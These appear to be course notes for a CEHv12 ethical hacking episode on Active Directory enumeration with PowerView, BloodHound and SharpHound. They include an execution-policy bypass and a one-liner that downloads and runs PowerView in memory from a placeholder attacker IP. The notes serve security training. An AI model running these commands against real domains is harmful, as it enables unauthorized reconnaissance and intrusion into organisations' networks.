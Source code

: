- Filename: eccouncil-ceh31250-v12-6-11-1-ad-enumeration.md
- Show Name: CEHv12 (312-50)
- Topic Name: System Hacking Phases and Attack Techniques - System Hacking
- Episode Name: AD Enumeration
================================================================================


Maintaining Access
--------------------------------------------------------------------------------

Objectives:
--------------------------------------------------------------------------------

--------------------------------------------------------------------------------

+ AD Enum using PowerView.ps1
  - https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
    + Run **PowerView**
      - Locally
	+ `powershell -ep bypass`
	+ `. .\PowerView.ps1`
      - From Memory
	+ `iex (new-object net.webclient)downloadstring('http://<attack-IP>/PowerView.ps1')`
    + PowerView AD Enum Commands
      - https://powersploit.readthedocs.io/en/latest/Recon/#powerview
	+ `Get-NetDomain`
	  - Domain Info
	+ `Get-NetForest`
	  - Forest Info
	+ `Get-NetForestDomain`
	  - Forests that Domain belongs to
	+ `Get-NetLoggedOn`
	+ `Invoke-ShareFinder`

+ Domain mapping and exploitation with Bloodhound
  - https://github.com/BloodHoundAD/BloodHound
  - https://bloodhound.readthedocs.io/en/latest/
    + Start Neo4j: `neo4j console`
      - Open Neo4j Interface: http://localhost:7474/
      - Default creds: *neo4j:neo4j*
    + Start Bloodhound and login:
      - `bloodhound`
    + Download and run **SharpHound.exe**
      - `.\SharpHound.exe`
    + Copy generated zip file to *Bloodhound* server
    + Import data into *Bloodhound*
    + Use analytics to explore AD
